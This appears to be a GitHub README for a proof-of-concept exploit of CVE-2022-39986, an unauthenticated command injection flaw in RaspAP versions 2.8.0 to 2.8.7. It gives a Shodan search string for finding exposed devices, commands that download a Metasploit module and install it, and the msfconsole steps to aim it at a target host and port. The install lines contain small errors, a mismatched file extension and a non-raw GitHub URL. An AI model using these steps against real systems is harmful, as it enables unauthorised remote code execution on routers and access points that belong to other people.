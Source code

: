 # 2022-39986
![](https://img.shields.io/static/v1?label=Product&message=RaspAP&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2.8.0%20thru%202.8.7&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Command%20Injection&color=red)

- Shodan dork:
```
"RaspAP"
```

### Install
```
wget https://github.com/getdrive/PoC/blob/main/2022/RaspAp_RCE/raspap_rce.rb
```
```
cp  raspap_rce.rd /usr/share/metasploit-framework/modules/exploit/unix/http/
```
### Usage
```
msfdb reinit; msfconsole -q
```
```
use exploit/unix/http/raspap_rce
```
```
set RHOST [IP]
set RPORT [PORT]
check
```
